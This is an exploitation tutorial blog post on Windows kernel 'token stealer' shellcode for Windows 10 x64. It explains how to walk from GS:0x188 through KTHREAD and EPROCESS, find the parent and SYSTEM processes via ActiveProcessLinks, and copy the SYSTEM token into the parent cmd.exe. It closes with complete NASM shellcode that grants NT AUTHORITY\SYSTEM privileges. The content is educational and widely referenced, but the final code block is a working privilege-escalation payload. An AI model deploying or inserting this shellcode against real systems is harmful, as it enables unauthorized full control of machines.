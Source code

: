 ```yaml
---
draft: false
date: 2020-02-03T16:25:30+01:00
title: "Windows Kernel Shellcode : TokenStealer"
description: "the Process Token Replacement Shellcode, the concept revolves around locating a privileged process and transferring its token to an unprivileged process."
slug: "windows-kernel-shellcode-tokenstealer"
authors: ["Oussama Amri"]
tags: ["windows", "exploit", "shellcode", "kernel", "token"]
categories: []
externalLink: ""
series: []
aliases: ["/post/windows-kernel-shellcode-tokenstealer/"]
---
```


A typical approach involving Reverse/Bind shellcode won't prove effective for Windows Kernel Exploitation. More often than not, practitioners resort to techniques such as Nulling out ACLs, Enabling privileges or Replacing process token.

### TL;DR
This article concentrates primarily on the **"Process Token Replacement"** Shellcode. The concept revolves around locating a privileged process and transferring its token to an unprivileged process, usually the parent process. (It's important to note that an exploit (**exploit.exe**) is executed through a command line (**cmd.exe**), which acts as the parent process.)

To summarize the steps:

- Identify the EPROCESS address of the current process.
- Pinpoint the EPROCESS address of the parent process.
- Locate the EPROCESS address of the SYSTEM process.
- Duplicate the token from the SYSTEM process to the parent process.
- Attain control over NT AUTHORITY/SYSTEM privileges.

For experimentation, ensure you're in a context where you have the ability to execute arbitrary kernel mode code and assembly code.

> Please be aware that the offsets need adjustment depending on the Windows build number you're working with! Refer to https://www.vergiliusproject.com/ for further information.

### Step 1

In our shellcode we need to start by locating the `_KTHREAD* CurrentThread` structure of the current process, let's see step by step how to find it !

The `GS[0]` segment point at the [_KPCR](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPCR) (Kernel Processor Control Region) structure which contains information about the processor.

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/KPCR.PNG" width="70%" >}}

In the last field of `KPCR`, exactly in `GS[0x180]` segment we can find the [_KPRCB](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPRCB) (Kernel Processor Control Region Block) structure which contains information about the current Thread.

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/KPRCB.PNG" width="70%" >}}

As you can see the offset `0x08` of `KPRCB` point at a [_KTHREAD* CurrentThread](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KTHREAD) structure of the CurrentThread, which is at `GS[0x188]`. So first instruction in assembly will be : 

```nasm
mov r9, qword [gs:0x188]  ; Pointing at _KTHREAD structure
```
### Step 2 

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/KTHREAD.PNG" width="70%" >}}

What we care more about in the `_KTHREAD` structure is the offset `0x220` where we can find the [_KPROCESS* Process](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPROCESS) structure. 

```nasm
mov r9, qword [r9 + 0x220]  ; Pointing at _KPROCESS/_EPROCESS structure
```

> The _KPROCESS structure is first field in the [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_EPROCESS) structure. So the address of _KPROCESS is the same as the address of _EPROCESS.

### Step 3

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/EPROCESS.PNG" width="70%" >}}

As we can see the offset `0x3e8` from the `_EPROCESS` point at the `InheritedFromUniqueProcessId` which is the **parent PID** (cmd.exe in our case).

```nasm
mov r8, qword [r9 + 0x3e8]  ; Saving the Parent PID in r8
mov rax, r9                 ; Saving the _KPROCESS/_EPROCESS address
```

#### To summarize

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/EPROCESS-MAP.png">}}


### Step 4

Now we have the parent PID, it's time to look for the `_EPROCESS` structure associated to it !

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/PID.PNG" width="70%" >}}

The offset `0x2f0` point at the `_LIST_ENTRY ActiveProcessLinks` structure, which is a linked-list points at the beginning of `_EPROCESS` structure for each **Active Process**. 

So we need loop over them and each time we compare the PID value with the `VOID* UniqueProcessId` (offset `0x2e8`), until we find the right `_EPROCESS` of the parent PID.

```nasm
loop1:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8   ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
```
### Step 5

Once we found the right `_EPROCESS` structure, we need to save the address that point at the `_EX_FAST_REF Token` (offset `0x360`), which is the token that need to be replaced.

```nasm
mov rcx, rax    ; Copy the _EPROCESS address to RCX
add rcx, 0x360  ; Pointing RCX at Token
```
### Step 6

We need to do the same thing with a **privileged process**. Most of the time we use the `system` process (PID of `4`).

```nasm
loop2:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4  ; Compare the PID (4) with the UniqueProcessId
jne loop2
```

### Step 7

After we find the `_EPROCESS` structure of the privileged process, it's time to replace the token of the unprivileged process (Parent PID **cmd.exe**) with the token of the privileged process **system**.

```nasm
mov rdx, rax            ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360          ; Pointing RDX at the Token of system
mov rdx, qword [rdx]    ; Copying the Token
mov qword [rcx], rdx    ; Replace the cmd.exe Token with the system Token
ret
```
### Exploit

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/SYSTEM.PNG" width="90%" >}}

### Final Code

```nasm
[bits 64]
global _start

section .text

_start:
mov r9, qword [gs:0x188]     ; Pointing at _KTHREAD structure
mov r9, qword [r9 + 0x220]   ; Pointing at _KPROCESS/_EPROCESS structure
mov r8, qword [r9 + 0x3e8]   ; Saving the Parent PID in r8 / you can change it directly with a PID value from your choice !
mov rax, r9                  ; Saving the _KPROCESS/_EPROCESS address
loop1:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0               ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8  ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
mov rcx, rax                 ; Copy the _EPROCESS address to RCX
add rcx, 0x360               ; Pointing RCX at Token
mov rax, r9
loop2:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0               ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4 ; Compare the PID (4) with the UniqueProcessId
jne loop2
mov rdx, rax                 ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360               ; Pointing RDX at the Token of system
mov rdx, qword [rdx]         ; Copying the Token
mov qword [rcx], rdx         ; Replace the cmd.exe Token with the system Token
ret
```

#### References:
* [Improsec](https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-1)
* [Cesar Cerrudo in 2012](https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH_US_12_Cerrudo_Windows_Kernel_WP.pdf)
* [InfoSecInstitute](https://resources.infosecinstitute.com/kernel-exploitation-part-2/)